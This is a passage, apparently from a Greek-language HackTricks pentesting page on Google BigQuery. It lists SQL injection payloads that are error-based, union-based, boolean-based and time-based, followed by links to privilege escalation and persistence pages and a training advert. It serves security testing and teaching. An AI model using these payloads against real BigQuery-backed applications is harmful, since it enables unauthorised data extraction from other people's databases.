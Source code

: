 * Βασισμένο σε σφάλματα - μετατροπή τύπου: `select CAST(@@project_id AS INT64)`
* Βασισμένο σε σφάλματα - διαίρεση με μηδέν: `' OR if(1/(length((select('a')))-1)=1,true,false) OR '`
* Βασισμένο σε ένωση (χρειάζεται να χρησιμοποιήσετε το ALL στο bigquery): `UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#`
* Βασισμένο σε λογική: ``' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#``
* Πιθανός βασισμένος στον χρόνο - Χρήση δημόσιων συνόλων δεδομένων παραδείγματος: ``SELECT * FROM `bigquery-public-data.covid19_open_data.covid19_open_data` LIMIT 1000``

**Τεκμηρίωση:**

* Λίστα όλων των συναρτήσεων: [https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* Δηλώσεις σεναρίου: [https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting](https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting)

### Ανόδος δικαιωμάτων & Μετά-εκμετάλλευση

{% content-ref url="../gcp-privilege-escalation/gcp-bigquery-privesc.md" %}
[gcp-bigquery-privesc.md](../gcp-privilege-escalation/gcp-bigquery-privesc.md)
{% endcontent-ref %}

### Διατήρηση

{% content-ref url="../gcp-persistence/gcp-bigquery-persistence.md" %}
[gcp-bigquery-persistence.md](../gcp-persistence/gcp-bigquery-persistence.md)
{% endcontent-ref %}

## Αναφορές

* [https://cloud.google.com/bigquery/docs/column-level-security-intro](https://cloud.google.com/bigquery/docs/column-level-security-intro)

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
